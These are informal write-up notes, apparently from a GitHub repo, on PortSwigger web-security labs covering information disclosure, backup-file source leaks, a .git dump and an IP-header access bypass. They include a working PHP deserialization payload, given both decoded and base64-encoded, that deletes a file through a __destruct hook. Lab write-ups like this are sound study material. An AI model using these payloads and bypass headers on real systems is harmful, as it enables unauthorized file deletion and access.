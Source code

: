 - Sensitive data can be leaked in all kinds of places, so it is important not to miss anything that could be useful later. You will often find sensitive data while testing for something else. A key skill is being able to recognize interesting information whenever and wherever you do come across it.
- 

# Information disclosure in error messages
```
GET /product?productId=2 HTTP/1.1
```
`/product?productId=` 20+ -> notfond

`/product?productId=kurohat` -> error messege disclosure service version `Apache Struts 2 2.3.31`

# Information disclosure on debug page
burp suite -> site map. looks for something juicy. key is in /cgi-bin/phpinfo.php

# Lab: Unprotected admin functionality with unpredictable URL
```js
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-jnwti1');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
```

# Lab: User ID controlled by request parameter with data leakage in redirect 
 This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can access you own account using `wiener:peter`. 


# Source code disclosure via backup files
- robots.txt -> /backup -> .bak -> database password
  
# Lab: Arbitrary object injection in PHP
This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can access your own account using the following credentials: wiener:peter 

You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file. 

- index
```html
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```
- `/libs/CustomTemplate.php~`
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
so unlink in php is — Deletes a file

try to intercept with burp suit and I found that the cookie looks wiredly long so I use **Chef** to check it
check session cookie:
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ4VXNTSlNDUE5HemVGWURPTEthSWNoVEdvOTRwZm1UaiI7fQ%3d%3d
```
decode base64
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"xUsSJSCPNGzeFYDOLKaIchTGo94pfmTj";}
ÝÝ
```
so The plan is we will replace the cookie with our payload: CustomTemplate, lock_file_path, /home/carlos/morale.txt. use `wc -m` to count word
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
now encode it in base64
```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```
now replace with the cookie and send it to server. boom!

# authen
TRACE /admin

X-Custom-IP-Authorization: 5.57.245.197

only local user -> X-Custom-IP-Authorization: 127.0.0.1

# las lab
`.git`
- config:
```
[user]
	email = carlos@evil-user.net
	name = Carlos Montoya
```
- log
```
0000000000000000000000000000000000000000 ae1caf1716bd5f4d0e2cbd15cf47204073ca372c Carlos Montoya <carlos@evil-user.net> 1600445061 +0000	commit (initial): Add skeleton admin panel
ae1caf1716bd5f4d0e2cbd15cf47204073ca372c d6c877b4b616275169fb98652af64ba08a0dd112 Carlos Montoya <carlos@evil-user.net> 1600445061 +0000	commit: Remove admin password from config
```
okey let use gitdump and dump .git
```console
/Desktop/git/.git$ git log
commit d6c877b4b616275169fb98652af64ba08a0dd112 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit ae1caf1716bd5f4d0e2cbd15cf47204073ca372c
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
kali@kali:~/Desktop/git/.git$ git show ae1caf1716bd5f4d0e2cbd15cf47204073ca372c
commit ae1caf1716bd5f4d0e2cbd15cf47204073ca372c
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel

diff --git a/admin.conf b/admin.conf
new file mode 100644
index 0000000..273400a
--- /dev/null
+++ b/admin.conf
@@ -0,0 +1 @@
+ADMIN_PASSWORD=upga15px9x3q7dleogbj
diff --git a/admin_panel.php b/admin_panel.php
new file mode 100644
index 0000000..8944e3b
--- /dev/null
+++ b/admin_panel.php
@@ -0,0 +1 @@
+<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
```